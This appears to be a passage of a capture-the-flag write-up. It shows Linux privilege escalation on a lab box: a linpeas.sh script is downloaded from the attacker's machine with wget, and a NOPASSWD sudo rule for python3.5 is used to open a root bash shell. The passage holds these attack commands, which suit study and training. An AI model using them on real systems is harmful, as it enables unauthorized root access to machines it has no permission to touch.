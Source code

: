 XXXXXXXXXXXXXXO          .xOOOOOOOOOOOOOOOOOOOOOOOkc.......    NXXXXXXXXXXXX
XXXXXXXXXXXXXXX;           ;kOOOOOOOOOOOOOOOOOOOkc.........   ,XXXXXXXXXXXXX
XXXXXXXXXXXXXXX0             ;kOOOOOOOOOOOOOOOd;...........   dXXXXXXXXXXXXX
XXXXXXXXXXXXXXXX.              ,dOOOOOOOOOOdc'.............   xXXXXXXXXXXXXX
XXXXXXXXXXXXXXXX.                 .''''..   ...............   .kXXXXXXXXXXXX
XXXXXXXXXXXXXXXK           .;okKNWWWWNKOd:.    ..............   'kXXXXXXXXXX
XXXXXXXXXXXXXXX'        .dXMMMMMMMMMMMMMMMMWO:    .............   'kXXXXXXXX
XXXXXXXXXXXXXK'       ,0MMMMMMMMMMMMMMMMMMMMMMWx.   ............    ,KXXXXXX
XXXXXXXXXXXKc       .0MMMMMMMMMMMMMMMMMMMMMMMMMMMk.   ............    xXXXXX
XXXXXXXXXXl        cWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMo   .............   :XXXX
XXXXXXXXK.        dMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM0    ............   .KXX
XXXXXXXX.        'MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMO   .............   'XXX
invite-me: ["linkedin link, you will have to do the ctf to have it"]

# Privilege escalation scanning:

>[!warning] Notes
>- We import from our attacking machine the `linpeas.sh` script ([here](https://raw.githubusercontent.com/Cerbersec/scripts/master/linux/linpeas.sh)), which is very efficient (`python -m http.server 8000` on the attacker device and `wget http://10.38.1.110:8000/linpeas.sh` from the ssh connection) 
>- We run it.


# Root access 

>[!warning] Notes
> We find, in the linpeas' script's output, that our user have all privileges with python3.5 :
>```sh
>shrek ALL = NOPASSWD:/usr/bin/python3.5
>```

>[!danger] Command
>We then just spawn a bash shell with **sudo** command using python3.5 :
>```sh
>sudo /usr/bin/python3.5 -c 'import pty;pty.spawn("/bin/bash")'

>[!hint] ROOT FLAG
```txt
                            ____
        ____....----''''````    |.
,'''````            ____....----; '.
| __....----''''````         .-.`'. '.
|.-.                .....    | |   '. '.
`| |        ..:::::::::::::::| |   .-;. |
 | |`'-;-::::::::::::::::::::| |,,.| |-='
 | |   | ::::::::::::::::::::| |   | |
 | |   | :::::::::::::::;;;;;| |   | |
 | |   | :::::::::;;;2KY2KY2Y| |   | |
 | |   | :::::;;Y2KY2KY2KY2KY| |   | |
 | |   | :::;Y2Y2KY2KY2KY2KY2| |   | |
 | |   | :;Y2KY2KY2KY2KY2K+++| |   | |
 | |   | |;2KY2KY2KY2++++++++| |   | |
 | |   | | ;++++++++++++++++;| |   | |
 | |   | |  ;++++++++++++++;.| |   | |
 | |   | |   :++++++++++++:  | |   | |
 | |   | |    .:++++++++;.   | |   | |
 | |   | |       .:;+:..     | |   | |
 | |   | |         ;;        | |   | |
 | |   | |      .,:+;:,.     | |   | |
 | |   | |    .::::;+::::,   | |   | |
 | |   | |   ::::::;;::::::. | |   | |
 | |   | |  :::::::+;:::::::.| |   | |
 | |   | | ::::::::;;::::::::| |   | |
 | |   | |:::::::::+:::::::::| |   | |
```